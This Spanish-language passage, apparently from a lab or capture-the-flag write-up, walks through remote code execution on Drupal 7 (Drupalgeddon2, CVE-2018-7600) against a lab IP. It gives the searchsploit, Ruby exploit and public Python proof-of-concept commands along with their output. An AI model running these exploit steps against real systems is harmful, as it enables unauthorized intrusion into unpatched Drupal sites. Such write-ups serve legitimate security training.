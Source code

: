 Hacemos uso de `searchsploit` buscando potenciales maneras de intrusión por medio de la explotación de `Drupal 7.x`.

```bash
searchsploit drupal 7.x
```

```bash
#OUTPUT
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution	| php/webapps/44449.rb
```

Vamos a ubicarnos en la carpeta `exploit` y a descargar el exploit `php/webapps/44449.rb`.

```bash
cd ../exploit
searchsploit -m php/webapps/44449.rb
```

Ejecutamos el exploit agregando únicamente el objetivo en cuestión, sin embargo, se debe instalar la gema `highline` para que funcione correctamente y obtener una ejecución remota de comandos como el usuario `iusr`

```bash
sudo gem install highline
ruby 44449.rb http://10.10.10.9
```

```bash
#OUTPUT
drupalgeddon2>> whoami
nt authority\iusr
```

## RCE POR CVE-2018-7600

Otro método de intrusión se puede ejecutar por medio del [script](https://github.com/pimps/CVE-2018-7600) en `python` del github de [pimps](https://github.com/pimps), por lo que se procede a descargar el repositorio y asignando como argumentos la URL y el comando que se desea ejecutar, tenemos acceso como usuario `iusr`.

```bash
git clone https://github.com/pimps/CVE-2018-7600
cd CVE-2018-7600/
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c whoami
```

```bash
=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-Bq2RKgVRi6UOsNDdQTbbkdP7-_788S3t3WDJh9J9rX4
[*] Triggering exploit to execute: whoami
nt authority\iusr
```
